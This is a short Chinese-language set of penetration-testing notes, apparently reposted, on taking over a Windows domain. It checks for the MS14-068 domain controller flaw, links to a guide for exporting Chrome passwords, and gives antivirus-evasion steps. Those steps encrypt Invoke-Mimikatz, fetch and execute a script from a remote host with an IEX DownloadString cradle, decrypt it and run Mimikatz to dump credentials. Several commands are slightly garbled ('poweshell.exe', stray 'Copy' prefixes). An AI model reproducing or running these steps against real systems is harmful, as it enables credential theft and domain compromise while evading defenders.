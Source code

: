 当我们拿到了一个普通域成员的账号后，想继续对该域进行渗透，拿到域控服务器权限。如果域控服务器存在 MS14_068 漏洞，并且未打补丁，那么我们就可以利用 MS14_068 快速获得域控服务器权限。

MS14-068编号 CVE-2014-6324，补丁为 3011780 ，如果自检可在域控制器上使用命令检测。

```bash
Copysysteminfo |find "3011780"
#为空说明该服务器存在MS14-068漏洞
```





### 导出chrome密码

https://mp.weixin.qq.com/s?__biz=MzIzOTg0NjYzNg==&mid=2247483949&idx=1&sn=db4853c88e4bf0a550c095d9017a363c&chksm=e92297aede551eb815a604ba944c4666b260c5bfe044e1b3a60946b586fd5679e29db0adf18d&mpshare=1&scene=23&srcid=&sharer_sharetime=1582350092849&sharer_shareid=d32981e13d51bf06188894426d2a54e5#rd



也有其他工具



### 免杀

Powersploit中提供的很多工具都是做过加密处理的，同时也提供了一些用来加密处理的脚本，Out-EncryptedScript就是其中之一。

首先在本地对Invoke-Mimikatz.ps1进行加密处理：

```powershell
Copypoweshell.exe Import-Module .\Out-EncryptedScript.ps1
poweshell.exe Out-EncryptedScript -ScriptPath .\Invoke-Mimikatz.ps1 -Password 密码 -Salt 随机数
#默认生成的文件是evil.ps1

-Password   设置加密的密钥
-Salt       随机数，防止被暴力破解
```

将加密生成的evil.sp1脚本放在目标机上，执行如下命令：

```powershell
Copy#远程加载解密脚本
poweshell.exe 
IEX(New-Object Net.WebClient).DownloadString("http://1.1.1.32/PowerSploit/ScriptModification/Out-EncryptedScript.ps1")

[String] $cmd = Get-Content .\evil.ps1
Invoke-Expression $cmd
$decrypted = de password salt
Invoke-Expression $decrypted
Invoke-Mimikatz
```





也可以自己修改mimikatz源码进行免杀。









### 转载&参考

https://www.cnblogs.com/-mo-/p/11890232.html







